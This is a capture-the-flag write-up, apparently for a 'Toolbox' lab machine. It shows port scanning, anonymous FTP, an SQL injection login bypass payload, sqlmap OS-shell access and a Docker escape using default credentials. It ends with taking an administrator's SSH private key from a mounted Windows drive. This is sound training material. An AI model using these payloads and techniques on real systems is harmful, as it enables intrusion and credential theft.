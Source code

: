 # Toolbox

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.171
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 06:28 EDT
Nmap scan report for 10.129.96.171
Host is up (0.0079s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Access

We can login to FTP using `anonymous`, and find an `.exe` file:

```
$ ftp 10.129.96.171
Connected to 10.129.96.171.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.129.96.171:kali): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50028|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
226 Successfully transferred "/"
```

I don't know what this is for, but we'll keep this in mind for now.

### MegaLogistics

The HTTPS page shows a freight corporate page:

<figure><img src="../../../.gitbook/assets/image (453) (2).png" alt=""><figcaption></figcaption></figure>

I took a look at the certificate, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (458) (2).png" alt=""><figcaption></figcaption></figure>

Heading to `admin.megalogistic.com` reveals a login page:

<figure><img src="../../../.gitbook/assets/image (439) (2).png" alt=""><figcaption></figcaption></figure>

Sending a single `'` reveals an SQL error.

<figure><img src="../../../.gitbook/assets/image (450) (2).png" alt=""><figcaption></figcaption></figure>

So this is vulnerable to SQL Injection, and we can use `'OR 1=1 -- -` to bypass the login. On the admin dashboard, we see some stuff regarding credentials:

<figure><img src="../../../.gitbook/assets/image (446) (2) (1).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the administrator panel for us to use, so let's go back to the SQL Injection and see if we can get a webshell via `sqlmap`.&#x20;

```bash
$ sqlmap -r req --force-ssl --os-shell
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
[06:37:40] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102...
command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
```

This works, and we can get a webshell. The weird part is, this is a Windows machine and I ran `id` out of instinct. This means that the website and database are probably run within a Docker container. Anyways, we can get a reverse shell via a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (457) (2).png" alt=""><figcaption></figcaption></figure>

I found the user flag within the `/var/lib/postgresql` folder:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -name 'user.txt' 2> /dev/null
</strong>/var/lib/postgresql/user.txt
</code></pre>

## Privilege Escalation

### Docker Escape

Earlier, we found that the administrator needs to send credentials to `tony` or something. Earlier, we found a `docker-toolbox.exe` file, and it is probably used to create this Docker.&#x20;

We can first figure out where other containers are located at via IP Address:

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3305  bytes 322116 (314.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1839  bytes 3722336 (3.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2042  bytes 635411 (620.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2042  bytes 635411 (620.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I downloaded the `nmap` binary onto this machine via `curl`, and found that SSH was open on 172.17.0.1.&#x20;

```
postgres@bc56e3cc55e9:/tmp$ ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-07 04:52 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00038s latency).
Not shown: 1205 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
```

While Googling for `docker-toolbox` and `ssh`, I came across this StackOverflow question:

{% embed url="https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login" %}

I tried the password and username he specified (which looked default to me) and it worked:

<figure><img src="../../../.gitbook/assets/image (434) (2) (1).png" alt=""><figcaption></figcaption></figure>

On the docker, we can run `sudo su` to become `root`.

```
docker@box:~$ sudo -l                                                          
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                          
root@box:/home/docker# id
uid=0(root) gid=0(root) groups=0(root)
```

### SSH Creds

Within `/`, I found a `/c` directory:

```
root@box:/# ls -la                                                             
total 244
drwxr-xr-x   17 root     root           440 May  7 04:37 .
drwxr-xr-x   17 root     root           440 May  7 04:37 ..
drwxr-xr-x    2 root     root          1420 May  7 04:34 bin
drwxr-xr-x    3 root     root            60 May  7 04:37 c
```

This is likely the Windows machine file system being mounted, and since we are `root`, we can go ahead and enumerate it.&#x20;

```
root@box:/c/Users/Administrator# ls -la                                        
total 1501
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 May  7 04:33 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

Within the `.ssh` file, we can find an `id_rsa` private key. Using that, we can `ssh` in as `administrator` on the main machine.

<figure><img src="../../../.gitbook/assets/image (437) (2) (1).png" alt=""><figcaption></figcaption></figure>
